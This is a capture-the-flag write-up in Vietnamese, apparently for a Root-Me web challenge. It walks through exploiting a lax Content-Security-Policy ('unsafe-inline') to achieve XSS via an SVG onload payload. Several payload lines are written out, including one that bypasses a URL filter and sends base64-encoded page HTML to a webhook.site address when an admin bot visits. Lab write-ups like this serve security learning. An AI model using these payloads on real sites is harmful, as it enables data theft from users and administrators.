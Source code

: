 Challenge: http://challenge01.root-me.org:58008/

Đầu tiên vào trang web ta có thể nhập 1 cái tên: 
![alt text](image.png)

Sau đó ta sẽ thấy input được đưa ra ở phần Welcome:
![alt text](image-1.png)

Vào Burp Suite ta thấy web này set CSP:
![alt text](image-2.png)

Ở đây ta chú ý đến `script-src 'unsafe-inline'` để cẩn thận hơn ta sẽ vào 1 web check CSP để xem có thể tấn công vào đâu: 
![alt text](image-5.png)

Vậy ở đây ta có thể chèn thêm 1 đoạn script, ta sẽ thử với phần input: 
![alt text](image-6.png)
![alt text](image-7.png)

Vậy là có thể XSS ở đây, tiếp tục ta sẽ thử gửi gói tin ra ngoài: 
`challenge01.root-me.org:58008/page?user=<svg onload=location.href="http://webhook.site/07a827ce-9a71-4727-8c68-3381bd0cc939">`
![alt text](image-8.png)
Nó đang bị chặn, có 2 cách ở đây là sẽ dùng atob để base64 cái link webhook hoặc chỉ cần bỏ đi phần `http:`:
`challenge01.root-me.org:58008/page?user=<svg onload=location.href="//webhook.site/07a827ce-9a71-4727-8c68-3381bd0cc939">`
![alt text](image-10.png)
![alt text](image-11.png)

Tiếp tục ta sẽ lấy HTML của trang này: 
`<svg onload=location.href="//webhook.site/07a827ce-9a71-4727-8c68-3381bd0cc939?c=".concat(btoa(document.body.innerHTML))>`
![alt text](image-12.png)

Thành công và ở đây ta có được nội dung của trang web, bây giờ ta cần gửi link này đến admin để admin truy cập link đó:
![alt text](image-13.png) 
![alt text](image-14.png)

Bây giờ ta cần đợi cho admin đọc nó thì sẽ có gói tin gửi về webhook:
![alt text](image-15.png)

Base64 nó ra: 
![alt text](image-16.png)
![alt text](image-17.png)